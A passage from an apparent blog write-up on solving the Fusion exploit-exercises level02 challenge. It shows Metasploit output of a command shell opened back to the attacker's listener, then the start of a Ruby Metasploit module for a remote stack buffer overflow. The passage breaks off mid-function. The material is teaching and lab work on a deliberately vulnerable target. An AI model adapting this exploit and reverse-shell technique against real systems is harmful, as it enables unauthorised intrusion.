 [*] Command shell session 1 opened (192.168.1.37:4444 -> 192.168.1.141:54918) at 2015-05-08 07:48:53 -0700

id
uid=20002 gid=20002 groups=20002
{% endhighlight %}

Success! The puzzle is solved :). Below the full Metasploit module:

{% highlight Ruby %}
require 'msf/core'

class Metasploit3 < Msf::Exploit::Remote

  include Msf::Exploit::Remote::Tcp

  def initialize(info = {})
    super(update_info(info,
      'Name'           => 'Fusion level02 remote stack buffer overflow',
      'Description'    => %q{
                           This module exploits a stack buffer overflow in level02 of the
                           fusion exploit exercises.
                           },
      'Author'         => [ 'Philip OKeefe' ],
      'Version'        => '1',
      'DefaultOptions' =>
              {
                      'EXITFUNC' => 'process',
              },
      'Payload'        =>
              {
                      'Space'    => 788,
                      'BadChars' => "\x00",
                      'StackAdjustment' => -4000,
              },
      'Platform'       => 'linux',

      'Targets'        =>
              [
                      ['Linux', {} ],
              ],
      'DefaultTarget' => 0,

      'Privileged'     => false
      ))

      register_options(
      [
              Opt::RHOST("192.168.0.17"),
              Opt::RPORT(20002),
      ], self.class)
   end


  def encrypt(len, data)
    buffer = "E" + [len].pack('L') + data
    sock.put(buffer)
    msg = buffered_recv(124)
    enc_data = buffered_recv(len)
    return enc_data
  end

  def buffered_recv(size)
    data = ""
    new_data = ""
    size_to_receive = size
    while(data.length < size) do
      new_data = sock.recv(size_to_receive)
      size_to_receive -= new_data.length